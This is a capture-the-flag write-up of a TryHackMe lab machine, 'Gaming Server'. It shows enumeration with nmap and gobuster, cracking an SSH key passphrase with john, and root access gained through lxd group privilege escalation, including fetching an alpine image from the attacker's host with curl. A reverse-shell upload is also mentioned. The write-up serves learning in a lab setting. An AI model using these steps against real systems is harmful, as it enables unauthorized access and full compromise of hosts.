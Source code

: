 **Category:** Web
**Author:** *Harsh Sharma*

# Gaming Server

## Enumeration using nmap

`nmap -sV -sC -p- 10.10.169.167`

2 open ports

![](images/gamingserver-image_12312024_181458.png)


let's visit the site-

![](images/gamingserver-image_12312024_181779.png)

> Nothing of our interest was found

and the source code-

![](images/gamingserver-image_12312024_181847.png)

looks like we found a user - [John] let's dig deeper

### Directory enumeration

`gobuster dir -u 10.10.169.167 -w /usr/share/wordlists/dirb/common.txt -x html,php -q`

![](images/gamingserver-image_12312024_183149.png)

> there are some interesting files and folder and also, an about file with php extension? let's explore all of it sequentially

- Here's robots.txt

![](images/gamingserver-image_12312024_184124.png)

- and here's the secret directory

![](images/gamingserver-image_12312024_224947.png)

found a secret key, we can probably use it for ssh

In addition to that, in the `/uploads` directory, found a dictionary which we can use later on and a `manifesto.txt`

![](images/gamingserver-image_12312024_230165.png)

---------------------------

Next, let's visit the `about.php`

![](images/gamingserver-image_12312024_231684.png)

![](images/gamingserver-image_12312024_231627.png)

source code - upload a php - reverse shell

----------------------------

So, I used the wordlist (dict.lst saved on root folder as dict.txt) with john to brute force the passphrase for sshkey as follows -

```console
┌──(root㉿kali)-[~]
└─# ssh2john id_rsa > id_rsa.hash
                                                                                         
┌──(root㉿kali)-[~]
└─# sudo john id_rsa.hash -w dict.txt 
Created directory: /root/.john
Warning: only loading hashes of type "SSH", but also saw type "tripcode"
Use the "--format=tripcode" option to force loading hashes of that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with wordlist:/usr/share/john/password.lst
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (id_rsa)     
1g 0:00:00:00 DONE (2025-01-01 04:28) 50.00g/s 1600p/s 1600c/s 1600C/s summer..maggie
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

and we find the passphrase, let's try to login now

![](images/gamingserver-image_12312024_233294.png)

...and we are in!

The user flag 1 is in the same directory

## Privilege Escalation

I tried linpeas but couldn't make it run, and since I did not have the password for john, I wasn't able to do a quick `sudo -l` as well. But while checking on the processes, here's what I found-

```console
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
john@exploitable:~$ 

```

Interestingly, we can see `lxd`

We can exploit it; I used [this article](https://www.hackingarticles.in/lxd-privilege-escalation/) to get root, followed all the steps

```console
┌──(root㉿kali)-[~]
└─# git clone https://github.com/saghul/lxd-alpine-builder

Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 50, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 50 (delta 2), reused 5 (delta 2), pack-reused 42 (from 1)
Receiving objects: 100% (50/50), 3.11 MiB | 54.96 MiB/s, done.
Resolving deltas: 100% (15/15), done.
```
> Cloned it on my attacker machine because the victim machine wasn't internet facing; transferred the tar.gz file as follows-

```console

┌──(root㉿kali)-[~]
└─# lxd-alpine-builder 
                                                                                         
┌──(root㉿kali)-[~/lxd-alpine-builder]
└─# ls                
LICENSE  README.md  alpine-v3.13-x86_64-20210218_0139.tar.gz  build-alpine
                                                                                         
┌──(root㉿kali)-[~/lxd-alpine-builder]
└─# cp alpine-v3.13-x86_64-20210218_0139.tar.gz ../alpine.tar.gz

```
Started a python http server on port 9000 and transferred over the file via curl-

```console
john@exploitable:/tmp$ curl 10.10.82.91:9000/alpine.tar.gz --output alpine.tar.gz
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 3183k  100 3183k    0     0   172M      0 --:--:-- --:--:-- --:--:--  172M

```

Following it further, we have the root!

![](images/gamingserver-image_01012025_003941.png)

![](images/gamingserver-image_01012025_003978.png)

![](images/gamingserver-image_01012025_004029.png)


- Hence, we ended up using LXD Priv Esc in this unique tryhackme room. It was fun working with container privilege escalation for the first! 






